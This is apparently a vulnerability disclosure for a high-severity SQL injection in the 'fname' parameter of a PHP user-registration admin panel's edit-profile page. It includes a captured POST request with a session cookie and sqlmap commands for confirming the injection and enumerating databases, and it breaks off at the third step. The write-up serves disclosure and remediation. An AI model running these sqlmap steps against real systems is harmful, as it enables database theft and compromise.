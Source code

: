 ## Vulnerability ID: 2025-10-04 - SQLi-fname (High)

### Impact
SQL Injection allows attackers to inject SQL into queries, potentially leading to data disclosure, authentication bypass, data manipulation, or full database compromise. The `fname` POST parameter in the profile update function was found injectable and exploitable with `sqlmap` to enumerate databases and dump tables.

### Likelihood
High — The `fname` parameter is used in a backend query without parameterization or robust input validation. The endpoint responds in a way that permitted automated detection and exploitation.

### Risk Level
**High**

### Found In
`POST https://192.168.31.97/User-Registration-and-login-System-with-admin-panel/loginsystem/admin/edit-profile.php?uid=1`

### Vulnerability Description
Applications must avoid concatenating untrusted input into SQL queries and should use prepared statements. During testing it was found that `fname` is accepted and used in a query without parameterization. An attacker with a valid session (or a coerced victim) can supply SQL payloads to alter query logic, enabling enumeration and data extraction.

### Observed vulnerable request (captured)

```
POST /User-Registration-and-login-System-with-admin-panel/loginsystem/admin/edit-profile.php?uid=1 HTTP/1.1
Host: 192.168.31.97
Cookie: PHPSESSID=7tnikfr1hvrh3p5sq2l0bi9rki
Content-Type: application/x-www-form-urlencoded
Origin: https://192.168.31.97
Referer: https://192.168.31.97/User-Registration-and-login-System-with-admin-panel/loginsystem/admin/edit-profile.php?uid=1

fname=Rahul&lname=Kumarrr&contact=1234567890&update=
```

### Exploitation Process (PoC & sqlmap commands)

**Step 1 — Save the request to a file** (e.g., `req.txt`) using Burp or a raw HTTP capture.

**Step 2 — Confirm injection with sqlmap:**

```bash
sqlmap -r req.txt -p fname --batch --level=3 --risk=2
```

**Step 3 — Enumerate DBMS and databases:**
